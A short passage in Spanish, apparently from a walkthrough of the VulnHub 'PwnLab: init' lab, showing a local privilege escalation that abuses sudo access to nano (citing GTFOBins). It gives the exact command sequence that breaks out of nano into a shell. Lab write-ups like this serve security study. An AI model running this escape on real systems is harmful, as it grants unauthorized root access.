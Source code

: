   <img src="../assets/images/vulnhub-pwnlab-init/33.png">
</p>

Al buscar como escalar privilegios aprovechando este comando (con programa nano en el archivo /opt/priv) podemos ver que en esta pagina [https://gtfobins.github.io/gtfobins/nano/](https://gtfobins.github.io/gtfobins/nano/) hay un exploit:

<p align="center">
  <img src="../assets/images/vulnhub-pwnlab-init/33.png">
</p>

Solo debemos ejecutar:

```bash
sudo /bin/nano /opt/priv
^R^X
reset; sh 1>&0 2>&0
```
